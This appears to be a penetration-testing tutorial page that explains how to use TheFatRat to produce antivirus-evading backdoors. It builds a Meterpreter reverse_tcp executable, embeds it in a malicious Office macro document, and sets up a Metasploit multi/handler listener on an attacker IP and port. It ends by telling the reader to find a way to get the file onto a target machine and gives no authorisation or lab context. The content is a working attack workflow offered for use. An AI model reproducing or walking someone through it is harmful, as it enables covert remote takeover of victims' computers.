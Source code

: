 ```yaml
---
path: "/tutorials/securitypentesttools/theFatRat"
date: "2020-04-06"
title: "TheFatRat"
---
```


TheFatRat is a tool to create backdoors and payloads that can bypass anti-virus programs. For more information on this please see the <a href="https://github.com/Screetsec/TheFatRat" target="_blank" rel="noopener noreferrer">GitHub repository</a>.

To use TheFatRat you'll have to grab it from that github repository. The installation instructions are there too. If you don't have all the packages or yours aren't up to date TheFatRat will install and update them for you, this may take a little bit of time. 

Once you've got it installed, depending how you installed it, you should be able to run TheFatRat by typing `fatrat` into the command line. 

Once that's loaded you'll be presented with a menu of options. For this tutorial we'll be creating a fud backdoor 1000% with PwnWinds (AKA option 6). 

Another menu will appear, we'll choose to create an exe file with apache + Powershell (FUD 100%) (AKA option 3). 

You'll be prompted to the LHOST value, and the LPORT. Enter the listener's (attacker) IP and port it will listen on.

You'll be asked to enter the base name for output files.

Now you will be asked to generate a payload. I'm choosing windows/meterpreter/reverse_tcp. When you've selected an option the payload will be generated, if you're using the default options it will be placed in a directory called Fatrat_Generated under your home directory.

We're now going to create a backdoor for Office with Microsploit (option 7). This will take the form of an Office Macro on Windows (option 2 in the next menu). 

You'll then get options for the listener IP, port, output filename. You can also enter a message for the document's body. 

Finally you'll be asked if  you want to use a custom exe file backdoor. This is where we'll use the payload we made earlier. Enter the directory it was save in.

You'll have the option to choose a payload. Choose windows/meterpreter/reverse_tcp. You'll be presented with the backdoor's details. Your payload has now been generated and will be stored in the same place as the other payload.

We'll now want to launch msfconsole and set up our listener.

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <attackerPort>
run
```

You'll have to find a way to get the malicious file onto the target machine. Once it's there and has been run you will have a meterpreter session set up. **N.B.** The user will have to enable the content for our payload to run.

Doing a simple `sysinfo` will confirm if this has worked.